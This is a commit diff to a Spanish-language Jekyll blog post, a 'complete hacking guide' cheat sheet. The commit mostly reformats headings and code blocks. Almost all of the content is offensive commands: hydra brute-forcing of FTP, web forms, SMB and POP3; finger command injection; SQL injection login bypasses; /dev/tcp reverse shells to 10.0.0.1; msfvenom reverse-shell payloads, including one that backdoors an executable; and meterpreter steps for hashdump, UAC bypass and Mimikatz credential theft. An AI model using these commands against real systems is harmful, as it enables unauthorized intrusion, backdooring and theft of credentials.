

Before and after one commit to HackingProfessional/Security, a Jekyll site: the page built from _posts/2019-04-01-Guia-completa-del-Hacking.md, in a window 1280 px wide. Shown: the part 1059-2963 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2019-04-01-Guia-completa-del-Hacking.md
+++ b/_posts/2019-04-01-Guia-completa-del-Hacking.md
@@ -45,7 +45,7 @@ Debido al gran contenido que abarca la seguridad informatica, este post esta en
 
 
 ## Hacking Desde 0
-### Enumeracion Inicial
+## Enumeracion Inicial
 
 ```bash
 # Escaneo sencillo con Nmap
@@ -62,7 +62,7 @@ nmap -v -Pn -T4 -p- --script vuln -oN machine.nmap 192.168.6.66
 masscan 192.168.6.66 -p0-65535
 ```
 
-### Enumerando FTP
+## Enumerando FTP
 
 ```bash
 # Banner grab
@@ -89,7 +89,7 @@ hydra 192.168.6.66 ftp -l username -P /usr/share/wordlists/rockyou.txt -e ns -vV
   - ftp.conf
   - proftpd.conf
 
-### Enumerando SSH
+## Enumerando SSH
 
 ```bash
 # Iniciar sesion por SSH
@@ -114,7 +114,7 @@ winscp
   - ssh_known_hosts
   - .shosts
 
-### Enumerando SMTP
+## Enumerando SMTP
 
 ```bash
 # Banner grab
@@ -145,7 +145,7 @@ QUIT
 sendmail.cf
 submit.cf
 
-### Enumerando un sitio WEB
+## Enumerando un sitio WEB
 
 Como realizar un descubrimiento de directorios:
 
@@ -161,8 +161,11 @@ nikto -h 10.0.0.1
 ```
 
 **Crackear peticiones GET**
-# hydra -l username -p wordlist -t thread -vV -e ns IP http-get /admin/
-# hydra -l username -p wordlist -t thread -vV -e ns -f IP http-get /admin/index.php
+
+```
+hydra -l username -p wordlist -t thread -vV -e ns IP http-get /admin/
+hydra -l username -p wordlist -t thread -vV -e ns -f IP http-get /admin/index.php
+```
 
 **Crackear peticiones POST**
 *Ejemplo de formulario WEB a crackear*
@@ -176,7 +179,7 @@ nikto -h 10.0.0.1
 ```
 
 Commando para Cracking de formularios POST：
-# hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “index.php:name=^USER^&pwd=^PASS^:<title>invalido</title>”
+hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “index.php:name=^USER^&pwd=^PASS^ <title>invalido</title>”
 
 **Herramientas Utiles**
 Burpsuite
@@ -199,7 +202,7 @@ Wordpress
   - setup-config.php
   - wp-config.php
 
-### Enumerando SMB
+## Enumerando SMB
 
 ```
 enum4linux –a 10.0.0.1
@@ -237,7 +240,7 @@ hydra -l administrator -P pass.txt IP smb
 Smb.conf
 lmhosts
 
-### Enumerando Finger
+## Enumerando Finger
 
 Descargar el siguiente script para enumerar este servicio:
 http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
@@ -260,7 +263,7 @@ finger "|/bin/id@example.com"
 finger "|/bin/ls -a /@example.com"
 ```
 
-### Enumerando POP3
+## Enumerando POP3
 
 ```
 telnet INSERTIPADDRESS 110
@@ -282,7 +285,7 @@ nmap -p110 –script pop3-capabilities target
 hydra -l muts -P pass.txt my.pop3.mail pop3
 ```
 
-### Enumerando SNMP
+## Enumerando SNMP
 
 ```
 snmpwalk -c public -v1 10.0.0.0
@@ -309,7 +312,7 @@ snmp.conf
 snmpd.conf
 snmp-config.xml
 
-### Enumerando MySQL
+## Enumerando MySQL
 
 ```
 mysql -h <Hostname> -u root@localhost
@@ -374,7 +377,7 @@ mysql> \! cat /etc/passwd
 mysql> \! bash
 ```
 
-### Enumerando Oracle
+## Enumerando Oracle
 
 ```
 tnscmd10g version -h INSERTIPADDRESS
@@ -387,7 +390,7 @@ tnscmd10g status -h INSERTIPADDRESS
 http://www.vulnerabilityassessment.co.uk/default_oracle_passwords.htm
 ```
 
-### SQLInjections
+## SQLInjections
 
 **Inyeccion en formularios de inicio de sesion**
 
@@ -408,7 +411,7 @@ admin'/*
 sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump
 ```
 
-### DSN Zone Transfers
+## DSN Zone Transfers
 
 ```
 nslookup -> set type=any -> ls -d blah.com
@@ -428,7 +431,7 @@ dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
 dnsenum --noreverse -o mydomain.xml example.com
 ```
 
-### Mounting File Shares
+## Mounting File Shares
 
 ```
 showmount -e IPADDR
@@ -451,7 +454,7 @@ Montando recursos compartidos en Windows.
 net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
 ```
 
-### Tecnicas de Fingerprinting
+## Tecnicas de Fingerprinting
 
 ```
 nc -v 192.168.1.1 25
@@ -465,7 +468,7 @@ telnet 192.168.1.1 25
 nmap -o -v binarychaos.com
 ```
 
-### Busqueda de Exploits
+## Busqueda de Exploits
 
 En el siguiente ejemplo realizo una busqueda de exploits relacionados a windows 2003
 
@@ -474,7 +477,7 @@ searchsploit windows 2003 | grep -i local
 ```
 
 
-### Compilando Exploits
+## Compilando Exploits
 
 ```
 gcc -o exploit exploit.c
@@ -485,7 +488,7 @@ i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
 ```
 
 
-### Sniffer Trafic
+## Sniffer Trafic
 
 En el siguiente comando, realizo un capturo los paquetes del puerto 80 por el protocolo TCP por medio de la interfaz eth0 y exporto el resultado en un archivo con nombre *output.pcap*.
 
@@ -493,7 +496,7 @@ En el siguiente comando, realizo un capturo los paquetes del puerto 80 por el pr
 tcpdump tcp port 80 -w output.pcap -i eth0
 ```
 
-### Password Cracking
+## Password Cracking
 
 Para la identificacion del tipo de hash utilizar:
 
@@ -514,7 +517,7 @@ Lista de tipos de hash soportados por Hashcat:
 https://hashcat.net/wiki/doku.php?id=example_hashes
 ```
 
-### Bruteforcing
+## Bruteforcing
 
 **Ejemplos del uso de Hydra**
 *Fuerza bruta a formulario enviado por Peticion POST*
@@ -589,7 +592,7 @@ for i in {0..9}; do echo Th4C00lTheacha$i; done >> hoola.txt
 ```
 
 
-### Shell-Reverse
+## Shell-Reverse
 
 **BASH**
 ```bash
@@ -638,7 +641,7 @@ p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while rea
 p.waitFor()
 ```
 
-### Obtener Shell TTY interactiva
+## Obtener Shell TTY interactiva
 
 ```bash
 python -c 'import pty; pty.spawn("/bin/sh")'
@@ -675,11 +678,11 @@ Usando man, more, less
 !bash
 ```
 
-### Metasploit
+## Metasploit
 
 **Generacion de payloads con msfvenom**
 
-#### Web Payloads
+### Web Payloads
 
 | Comandos         | Explicacion                                                                 |
 | --------         | ------------------------------------------------------------------          |
@@ -688,7 +691,7 @@ Usando man, more, less
 | msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp | Creats a Creacion del Shell Inversa para JSP por el protocolo TCP
 | msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war | Creacion del Shell Inversa para WAR por el protocolo TCP |
 
-#### Windows Payloads
+### Windows Payloads
 
 | Comandos         | Explicacion                                                                 |
 | --------         | ------------------------------------------------------------------          |
@@ -697,7 +700,7 @@ Usando man, more, less
 | msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe | Crea una carga útil simple para el protocolo TCP con el codificador shikata_ga_nai
 | msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe | Enlazar un ejecutable con un backdoor y lo codifica con shikata_ga_nai |
 
-#### Binaries
+### Binaries
 
 | Comandos         | Explicacion                                                                 |
 | --------         | ------------------------------------------------------------------          |
@@ -726,64 +729,104 @@ msf5 exploit(multi/handler) > run
 
 Luego de comprometer una maquina y tener una shell de meterpreter, hay multiples comandos que nos facilitaran la vida en la hora de interactuar con nuestra maquina victima.
 
+```
 upload file c:\\windows
+```
 Como subir un archivo a una maquina comprometida con windows
 
+```
 download c:\\windows\\repair\\sam /tmp
+```
 Como descargar un archivo que este alojado en el equipo victima y guardarlo en nuestro equipo.
 
+```
 execute -f c:\\windows\temp\exploit.exe
+```
 Como ejecutar archivos (EXE) alojados en la maquina comprometida.
 *Esto es util para la ejecucion de exploits.*
 
+```
 execute -f cmd -c
+```
 Crea un nuevo canal con una Shell de CMD
 
+```
 ps
+```
 Como ver los procesos que corre nuestra maquina comprometida.
 
+```
 shell
+```
 Como obtener una shell en la maquina comprometida.
 
+```
 getsystem
+```
 Realizar un intento para escalar privilegios sobre el sistema.
 
+```
 hashdump
+```
 El comando hashdump permite obtener los usuarios y el hash de los passwords de la maquina remota en formato SAM, de esta forma se puede crakear la clave de un usuario determinado usando herramientas como john the ripper o ophcrack
 
+```
 portfwd add -l 3389 -p 3389 -r target
+```
 Como redirigir puertos a través de la máquina comprometida hacia nosotros los atacantes.
 
+```
 portfwd delete -l 3389 -p 3389 -r target
+```
 Eliminar la redireccion de puertos.
 
+```
 use exploit/windows/local/bypassuac
+```
 Burlar el Control de Cuentas de Usuario (UAC) en Windows 7 // Indicar la IP de la victima como target + arch, x86/64
 
+```
 use auxiliary/scanner/http/dir_scanner
+```
 Analizador de directorios HTTP
 
+```
 use auxiliary/scanner/http/jboss_vulnscan
+```
 Escaner de vulnerabilidades para JBOSS
 
+```
 use auxiliary/scanner/mssql/mssql_login
+```
 Modulo para autenticarse en el servicio MSSQL.
 
+```
 use auxiliary/scanner/mysql/mysql_version
+```
 Identificar la version de MySQL.
 
+```
 use auxiliary/scanner/oracle/oracle_login
+```
 Modulo para autenticarse en el servicio de Oracle
 
+```
 post/windows/manage/powershell/exec_powershell
+```
 Ejecucion de script en powershell para una sesion de meterpreter
 
+```
 run post/windows/gather/win_privs
+```
 Ver privilegios del usuario actual.
 
+```
 use post/windows/gather/credentials/gpp
+```
 Obtener contraseñas guardadas GPP
 
+```
 load kiwi
 creds_all
+```
 Cargar Mimikatz/kiwi para conseguir credenciales de usuarios autenticados.
````
